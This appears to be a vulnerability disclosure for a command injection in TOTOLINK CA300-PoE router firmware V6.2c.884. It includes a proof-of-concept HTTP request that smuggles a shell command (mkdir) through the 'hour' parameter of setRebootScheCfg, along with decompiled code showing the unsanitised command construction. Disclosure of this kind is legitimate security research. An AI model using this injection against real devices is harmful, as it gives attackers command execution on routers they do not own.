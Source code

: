 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the hour parameter in the function setRebootScheCfg

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setRebootScheCfg`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setRebootScheCfg","mode" : "1", "hour": "';mkdir /hour_1111;'"}
```

Folder created successfully

![image-20230112223707387](images/3.png)

```
int __fastcall setRebootScheCfg(int a1, int a2, int a3)
{
  int mode_v; // $s5
  int week_v; // $s3
  const char *hour_v; // $fp
  const char *minute_v; // $s7
  int recHour_v; // $s0
  int v9; // $v0
  int v11; // $v0
  int i; // $s0
  _BYTE *v13; // $v0
  char *v14; // $a0
  int v15; // $s0
  int v16; // $s0
  char v19[256]; // [sp+2Ch] [-244h] BYREF
  char v20[128]; // [sp+12Ch] [-144h] BYREF
  char v21[128]; // [sp+1ACh] [-C4h] BYREF
  int v22[16]; // [sp+22Ch] [-44h] BYREF

  memset(v20, 0, sizeof(v20));
  memset(v21, 0, sizeof(v21));
  memset(v19, 0, sizeof(v19));
  mode_v = websGetVar(a2, "mode", "0");
  week_v = websGetVar(a2, "week", "");
  hour_v = (const char *)websGetVar(a2, "hour", "");
  minute_v = (const char *)websGetVar(a2, "minute", "");
  recHour_v = websGetVar(a2, "recHour", "0");
  cs_uci_set("system.reboot.mode", mode_v);
  cs_uci_set("system.reboot.week", week_v);
  cs_uci_set("system.reboot.hour", hour_v);
  cs_uci_set("system.reboot.minute", minute_v);
  cs_uci_set("system.reboot.recHour", recHour_v);
  cs_uci_commit("system");
  strcpy(v19, "sed -i /reboot/d /etc/crontabs/root");
  CsteSystem(v19, 0);
  CsteSystem("killall sche_reboot", 0);
  v9 = atoi(mode_v);
  if ( v9 == 1 )                                // mode=1
  {
    v11 = atoi(week_v);
    if ( v11 == 255 )
    {
      strcpy(v21, "*");
    }
    else if ( v11 )
    {
      for ( i = 1; i != 8; ++i )
      {
        if ( ((atoi(week_v) >> i) & 1) != 0 )
        {
          sprintf(v20, (const char *)&dword_4404, i);
          strcat(v21, v20);
          strcat(v21, &dword_4408);
        }
      }
      v13 = (_BYTE *)strrchr(v21, 44);
      if ( v13 )
        *v13 = 0;
    }
    sprintf(v19, "echo '%s %s * * %s reboot -f'>> /etc/crontabs/root", minute_v, hour_v, v21);
    v14 = v19;
LABEL_13:
    CsteSystem(v14, 0);
    goto LABEL_3;
  }
  if ( v9 == 2 )
  {
    v15 = atoi(recHour_v);
    if ( v15 > 0 )
    {
      sysinfo(v22);
      v16 = 3600 * v15 - v22[0];
      if ( v16 <= 0 )
      {
        cs_cmd("reboot", 16464, 1);
        goto LABEL_3;
      }
      CsteSystem("killall sche_reboot", 0);
      sprintf(v20, "sche_reboot %ld &", v16);
      v14 = v20;
      goto LABEL_13;
    }
  }
LABEL_3:
  cs_cmd("/etc/init.d/cron", "restart", 2);
  websSetCfgResponse(a1, a3, "0", "reserv");
  return 0;
}
```

![image-20230112223054684](images/4.png)

![image-20230112223826938](images/5.png)